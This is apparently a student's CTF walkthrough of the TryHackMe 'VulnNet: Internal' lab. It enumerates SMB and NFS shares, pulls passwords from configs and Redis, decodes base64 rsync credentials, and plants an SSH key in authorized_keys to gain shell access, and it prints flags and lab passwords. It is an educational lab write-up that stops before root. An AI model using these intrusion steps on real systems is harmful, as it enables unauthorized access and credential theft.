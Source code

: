 ```yaml
---
layout: page
title: VulnNet: Internal
permalink: /CSCI24/VulnNetInternal/
---
```


---

[CSCI 24 Directory](https://zacvr.github.io/CSCI24/)
<br/>

---
<br/>


Task 1
---

Lets start with a nmap scan shall we?

```nmap -sC -sV 10.10.106.247```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.png">

we have quite a few posibilities so lets see if metaspolit sees anything

Since we see some SMB shares lets try for that

lets add the IP to our host file with

```sudo nano /etc/hosts```

I named it VulnInternal

```smbmap -H VulnInternal```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.5.png">

We see a share named "shares" lets look into it shall we?

```smbmap -H VulnInternal -u root -R```

Now we neet to "get" the file suspiciously named "services.txt"

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.6.png">

```smbget -R smb://VulnInternal/shares/temp/services.txt```

Lets cat that file

```cat services.txt```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.7.png">

What is the services flag? (services.txt)

***THM{0a09d51e488f5fa105d8d866a497440a}***

---



Port 2049 looks different

a quick search [Here](https://blog.christophetd.fr/write-up-vulnix) shows that we can look into NFS shares

```showmount -e VulnInternal```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.7.png">

We can copy this into a new directory to look into the results

```mkdir VulnInternal```

```sudo mount -t nfs VulnInternal:/opt/conf VulnInternal```
```cd VulnInternal```
lets see if we can find anything with grep

```grep -R pass```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q2.png">

After some googling and finding what redis was I found that we need a tool to try and work with it

```sudo apt install redis-tools```

Lets try to get in with that password we found

```redis-cli -h VulnInternal -a B65Hx562F@ggAZ@F```

```info```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q2.5.png">

Now at the bottom we see a key space that we can look into further

```keys *```

Key #3 is "internal flag"

```get "internal flag"```


What is the internal flag? ("internal flag")

***THM{ff8e518addbbddb74531a724236a8221}***


```type authlist```

I learned from a write up about lrange

```lrange authlist 1 99999```

"QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

is written 3 times and is most likely base64

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q3.png">

looks like we are going to use rysnc as well (password: Hcg3HP67@TW@Bc72v)

```rsync rsync://rsync-connect@VulnInternal/```

There is a folder named files lets look into it

```rsync rsync://rsync-connect@VulnInternal/files```

```rsync rsync://rsync-connect@VulnInternal/files/sys-internal/```

lets look into the txt file

it didn't want to save itn oa nromal folder so I moved it to the tmp

```cd /tmp```

```sudo rsync rsync://rsync-connect@VulnInternal/files/sys-internal/user.txt user.txt -v```

```sudo cat user.txt```

What is the user flag? (user.txt)

***THM{da7c20696831f253e0afaca8b83c07ab}***


What is the root flag? (root.txt)

A walkthrough taught me that rysnc can pull and push files such as a new SSH key!

ssh-keygen (to create a key in tmp named VulnKey)

```rsync id_rsa.pub rsync://rsync-connect@VulnInternal/files/sys-internal/.ssh/authorized_keys```

Lets make sure our key was put in the folder

```rsync rsync://rsync-connect@internal.thm/files/sys-internal/.ssh/```

```ssh sys-internal@VulnInternal -i id_rsa```

after rooting aroudn there is a fodler named TeamCity

the reame shows us how to run a file


***
